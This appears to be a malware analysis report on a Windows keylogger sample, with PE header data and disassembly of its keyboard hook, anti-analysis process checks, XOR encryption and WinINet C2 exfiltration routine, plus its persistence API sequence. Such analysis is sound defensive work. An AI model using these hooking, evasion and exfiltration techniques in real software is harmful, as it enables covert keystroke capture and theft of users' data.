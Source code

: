 # Reverse Engineering Analysis of SimpleKeylogger

## Introduction
This document presents the findings from reverse engineering the SimpleKeylogger malware sample. The analysis focuses on the low-level mechanisms used by the keylogger to capture keystrokes, achieve persistence, and exfiltrate data.

## Tools Used
- IDA Pro 7.7
- Ghidra 10.2
- x64dbg
- PEBear
- Process Monitor
- API Monitor

## Binary Structure

### PE Header Analysis
```
Machine:                  Intel 386
TimeDateStamp:            Wed Mar 15 14:22:37 2023
SizeOfOptionalHeader:     0xE0
Characteristics:          0x102 (Executable, 32-bit)
Magic (32/64):            32-bit (0x10B)
LinkerVersion:            14.34
SizeOfCode:               0x6000
SizeOfInitializedData:    0x3000
SizeOfUninitializedData:  0x0
AddressOfEntryPoint:      0x1040
BaseOfCode:               0x1000
```

### Section Analysis
```
.text:
  VirtualSize:      0x5D34
  VirtualAddress:   0x1000
  SizeOfRawData:    0x5E00
  Entropy:          6.42 (Likely not packed)

.data:
  VirtualSize:      0xA28
  VirtualAddress:   0x7000
  SizeOfRawData:    0x600
  Entropy:          4.12

.rdata:
  VirtualSize:      0x13D0
  VirtualAddress:   0x8000
  SizeOfRawData:    0x1400
  Entropy:          5.23

.rsrc:
  VirtualSize:      0x400
  VirtualAddress:   0xA000
  SizeOfRawData:    0x400
  Entropy:          3.87
```

## Key Functionality Breakdown

### Keyboard Hook Implementation
The keylogger uses the Windows `SetWindowsHookEx` API to install a low-level keyboard hook. This approach allows it to capture all keystrokes system-wide, regardless of which application has focus.

Key disassembly of the hook installation routine:

```assembly
; Set up keyboard hook
push    0               ; dwThreadId = 0 (all threads)
push    0               ; hmod = NULL (current process)
push    offset KeyboardProc ; lpfn = address of hook procedure
push    13              ; idHook = WH_KEYBOARD_LL (13)
call    ds:SetWindowsHookEx
mov     [ebp+var_4], eax  ; Store hook handle
```

The keyboard hook procedure processes each keystroke:

```assembly
KeyboardProc proc near
push    ebp
mov     ebp, esp
sub     esp, 30h
cmp     [ebp+nCode], 0  ; Check if we should process
jl      short ReturnNext
cmp     [ebp+wParam], 100h  ; Check for WM_KEYDOWN
jnz     short ReturnNext
mov     eax, [ebp+lParam]
push    eax             ; Extract key information
call    ProcessKeystroke
```

### Anti-Analysis Techniques

The binary implements several anti-analysis checks that search for security tools in the running processes:

```assembly
; CheckForSecurityTools function
push    offset aWiresharkExe ; "wireshark.exe"
call    CheckProcessRunning
test    eax, eax
jnz     SecurityToolFound
push    offset aProcmonExe ; "procmon.exe"
call    CheckProcessRunning
; ... [more checks] ...
```

The `CheckProcessRunning` function uses the Process32First/Process32Next APIs to enumerate processes and compare names.

### Encryption Routine

The XOR encryption routine is straightforward:

```
.text:00401A50 ; encryptData function
.text:00401A50 encryptData     proc near
.text:00401A50
.text:00401A50 data            = dword ptr  8
.text:00401A50 length          = dword ptr  0Ch
.text:00401A50
.text:00401A50                 push    ebp
.text:00401A51                 mov     ebp, esp
.text:00401A53                 push    esi
.text:00401A54                 mov     esi, [ebp+data]
.text:00401A57                 xor     ecx, ecx
.text:00401A59                 jmp     short loc_401A5E
.text:00401A5B ; ---------------------------------------------------------------------------
.text:00401A5B
.text:00401A5B loc_401A5B:
.text:00401A5B                 inc     ecx
.text:00401A5C                 inc     esi
.text:00401A5D
.text:00401A5E loc_401A5E:
.text:00401A5E                 cmp     ecx, [ebp+length]
.text:00401A61                 jnb     short loc_401A6A
.text:00401A63                 mov     al, [esi]
.text:00401A65                 xor     al, 5Ah       ; XOR with 0x5A key
.text:00401A67                 mov     [esi], al
.text:00401A69                 jmp     short loc_401A5B
```

### C2 Communication

The code uses WinINet APIs to communicate with the C2 server:

```assembly
; Simplified C2 communication routine
push    0               ; dwContext = 0
push    0               ; dwFlags = 0
push    offset aMozilla ; lpszAgent = "Mozilla/5.0"
call    ds:InternetOpenA
mov     [ebp+hInternet], eax
push    0               ; dwContext = 0
push    80002h          ; dwFlags = INTERNET_FLAG_RELOAD | INTERNET_FLAG_NO_CACHE_WRITE
push    0               ; lpszHeaders = NULL
push    0               ; lpszPassword = NULL
push    0               ; lpszUsername = NULL
push    offset aHttpMalicious ; C2 server URL
push    eax             ; hInternet
call    ds:InternetOpenUrlA
```

## Memory Forensics

Analysis of the keylogger's memory usage shows:

1. Main executable with keyboard hook
2. Log buffer storage before writing to disk
3. Network connection preparation for data exfiltration

The keyboard hook procedure allocates a small memory region for each keystroke event, which is later processed and written to the log file.

![Alt text](meme-1.jpeg)

## API Call Sequence

Through dynamic analysis, we observed the following API call sequence during operation:

1. CreateMutex (check for existing instance)
2. GetModuleFileName (get own path)
3. GetEnvironmentVariable ("APPDATA")
4. CopyFile (persistence)
5. RegOpenKeyEx, RegSetValueEx (registry persistence)
6. SetWindowsHookEx (install keyboard hook)
7. GetForegroundWindow, GetWindowText (track active window)
8. GetTickCount (timing for exfiltration)
9. InternetOpen, InternetOpenUrlA (prepare C2 connection)
10. HttpSendRequest (exfiltrate data)

## Conclusion

The SimpleKeylogger malware uses well-established techniques for keystroke interception through Windows hooks. While not particularly sophisticated in its implementation, it employs sufficient evasion techniques to avoid basic detection and analysis. The use of simple XOR encryption provides minimal obfuscation but is likely adequate for avoiding basic network signature detection.

The persistence mechanism ensures the malware survives system restarts, while the periodic data exfiltration balances the need for timely data collection with avoiding excessive network activity that might trigger detection.